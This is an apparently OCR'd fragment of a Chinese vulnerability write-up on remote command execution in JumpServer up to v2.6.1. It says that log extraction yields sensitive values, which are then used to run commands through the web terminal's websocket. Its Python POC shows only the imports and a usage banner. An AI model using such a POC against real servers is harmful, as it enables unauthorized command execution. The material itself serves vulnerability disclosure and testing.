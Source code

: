 

模拟连接发送和接发数据



![](/images/202202101945777.png)



这里可以看到我们只要模拟了这个发送，返回的数据和web终端是一样的，那我们就可以通过这样的方法来进行命令执行了



## 漏洞POC

- ✅POC 里包含两个方法，一个是获取日志文件，另一个是命令执行
- ✅日志提取已经过滤了部分API调用的数据，只需要找到那几个值就好了

- ✅命令执行需要从日志中获取敏感数据并写入脚本对应的变量中
- ✅接收数据如果卡住请调整 for i in range(7) 这个位置的 7



```python
import requests
import json
import sys
import time
import asyncio
import websockets
import re
from ws4py.client.threadedclient import WebSocketClient

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号 : PeiQi文库                                                     \033[0m')
    print('+  \033[34mPOC_Des: https://www.o2oxy.cn/                                    \033[0m')
    print('+  \033[34mVersion: JumpServer <= v2.6.1                                     \033[0m')
    print('+  \033[36m使用格式: python3 poc.py                                           \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                            \033[0m')
    print('+  \033[36mCmd         >>> whoami				                            \033[0m')
    print('+------------------------------------------')

```